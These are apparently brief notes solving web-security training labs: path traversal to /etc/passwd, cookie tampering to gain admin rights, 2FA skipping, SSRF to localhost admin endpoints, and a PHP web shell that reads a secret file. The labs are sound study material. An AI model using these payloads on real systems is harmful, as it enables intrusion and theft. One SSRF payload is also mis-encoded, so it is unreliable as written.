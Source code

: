 ## Reading arbitrary files via path traversal

`https://insecure-website.com/loadImage?filename=../../../etc/passwd`  
`https://insecure-website.com/loadImage?filename=..\..\..\windows\win.ini`

## Lab: File path traversal, simple case
`/image?filename=../../../etc/passwd`

## Lab: Unprotected admin functionality
`/robots.txt`

## Lab: Unprotected admin functionality with unpredictable URL
Admin URL in `<script>` tag.

## Lab: User role controlled by request parameter
Change Cookie: `Admin=true`

## Lab: User ID controlled by request parameter, with unpredictable user IDs

1. Find a post of Carlos;
2. Find Carlos' UID in html;
3. Change id cookie to Carlos' UID


## Lab: User ID controlled by request parameter with password disclosure
1. Login in Wiener's account;
2. Open MyAccount page with cookie `id=administrator`;
3. Get administrator's password;
4. Delete Carlos.

## Lab: Username enumeration via different responses
Intrude. (wihout Pro filter is really shxxxxt.)


## Lab: 2FA simple bypass
Login with password, just skip the 2FA page (change URL).


## Lab: Basic SSRF against the local server

Intercept Stock check request and change the stockApi to `http%4A%2F%2Flocalhost%2Fadmin%2Fdelete%3Fusername%3Dcarlos`

## Lab: Basic SSRF against another back-end system
1. First iterate stockAPI to find the admin url
2. check `Lab: Basic SSRF against the local server`

## Lab: Remote code execution via web shell upload
1. Upload a php file contains:  
    `<?php echo file_get_contents('/home/carlos/secret'); ?>`
2. Visit `https://host/files/avatars/filename.php`.


## Web shell upload via Content-Type restriction bypass
Basically same as `Lab: Remote code execution via web shell upload` just change the php file's Content-Type to image/jpeg.
